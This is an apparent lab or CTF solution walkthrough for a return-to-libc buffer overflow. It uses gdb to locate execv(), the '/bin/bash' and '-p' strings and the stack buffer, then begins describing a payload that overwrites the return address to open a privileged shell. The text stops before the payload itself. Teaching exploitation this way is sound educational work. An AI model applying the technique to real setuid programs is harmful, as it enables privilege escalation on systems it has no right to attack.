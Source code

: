 
### Solution

#### Step 1: Determine the Required Addresses

1. **Address of `execv()`**
   Use `gdb` to find the address of the `execv()` function in the libc library:
   ```bash
   gdb ./vulnerable_program
   ```
   In `gdb`, run:
   ```gdb
   p execv
   ```
   Example output:
   ```
   $1 = {<text variable, no debug info>} 0xf7e0f060 <execv>
   ```
   The address of `execv()` is `0xf7e0f060`.

2. **Address of `/bin/bash`**
   Use `gdb` to locate the string `/bin/bash` in the libc library:
   ```gdb
   find __libc_start_main,+9999999,"/bin/bash"
   ```
   Example output:
   ```
   0xf7f52a0b
   ```
   The address of `/bin/bash` is `0xf7f52a0b`.

3. **Address of `-p`**
   Similarly, locate the string `-p` in the libc library:
   ```gdb
   find __libc_start_main,+9999999,"-p"
   ```
   Example output:
   ```
   0xf7f52b0c
   ```
   The address of `-p` is `0xf7f52b0c`.

4. **Address of the Stack Buffer**
   The vulnerable program prints the address of the stack buffer. Run the program and note the printed address. For example:
   ```
   Buffer address: 0xffffd0a0
   ```
   The stack buffer starts at `0xffffd0a0`.

---

#### Step 2: Construct the Payload

The payload must:
1. Overwrite the return address to point to `execv()`.
2. Place the arguments for `execv()` on the stack:
   - `pathname`: Address of `/bin/bash`.
   - `argv[]`: Address of the argument array on the stack.
